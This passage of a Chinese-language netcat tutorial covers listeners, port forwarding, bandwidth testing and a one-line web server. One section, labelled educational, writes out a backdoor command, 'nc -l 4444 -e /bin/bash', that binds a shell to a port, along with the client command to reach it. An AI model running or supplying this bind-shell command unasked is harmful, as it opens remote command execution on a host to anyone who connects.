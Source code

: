 ### 5. 创建持久监听服务 🔄

```bash
# 创建持久监听服务（接受多个连接）
nc -l -k 1234
```

## 高级用法 🚀

### 1. 创建后门（仅用于教育目的）🔐

**服务器端：**
```bash
# 监听4444端口并将连接的输入输出重定向到bash
nc -l 4444 -e /bin/bash
```

**客户端：**
```bash
# 连接到服务器
nc 服务器IP 4444
```

连接后，客户端可以在服务器上执行bash命令。

### 2. 端口转发 🔀

```bash
# 将本地8080端口的流量转发到远程服务器的80端口
mkfifo /tmp/fifo
nc -l 8080 < /tmp/fifo | nc remote_server 80 > /tmp/fifo
```

### 3. 网络带宽测试 📊

**服务器端：**
```bash
# 创建监听服务器，丢弃所有接收的数据
nc -l 5001 > /dev/null
```

**客户端：**
```bash
# 发送随机数据进行测试
dd if=/dev/zero bs=1M count=100 | nc 服务器IP 5001
```

### 4. 创建简单的Web服务器 🌍

```bash
while true; do nc -l 8080 < simple_response.http; done
```

其中`simple_response.http`文件内容为：
```
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
<h1>Hello, World!</h1>
</body>
</html>
```
